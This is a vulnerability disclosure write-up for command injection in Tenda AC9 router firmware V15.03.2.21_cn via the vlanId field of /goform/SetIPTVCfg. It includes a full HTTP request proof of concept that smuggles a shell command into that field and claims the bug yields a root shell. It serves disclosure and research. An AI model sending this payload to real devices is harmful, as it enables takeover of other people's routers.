

# Tenda AC9 V15.03.2.21_cn Command Execution Vulnerability

## Overview

- Manufacturer's website information：https://www.tenda.com.cn/profile/contact.html
- Firmware download address ： https://www.tenda.com.cn/download/default.html

## 1. Affected version


Figure 1 shows the latest firmware Ba of the router

## Vulnerability details


First, it puts the content after the vlanid parameter into V8,
Then bring V8 into sub_ A3760 and sub_ In a3550 function




 The functions call dosystemcmd, and the parameters are controllable. We can achieve the effect of command injection by constructing payload

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Use the fat simulation firmware V15.03.2.21_cn
2. Attack with the following POC attacks

```
POST /goform/SetIPTVCfg HTTP/1.1
Host: 192.168.11.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:96.0) Gecko/20100101 Firefox/96.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 51
Origin: http://192.168.11.1
Connection: close
Referer: http://192.168.11.1/iptv.html?random=0.7642888131213508&
Cookie: password=7c90ed4e4d4bf1e300aa08103057ccbcmho1qw

stbEn=1&igmpEn=1&vlanId=1"echo 1234 > /tmp/4455 \"\
```

The reproduction results are as follows:


Figure 2 POC attack effect

Finally, you can write exp, which can achieve a very stable effect of obtaining the root shel

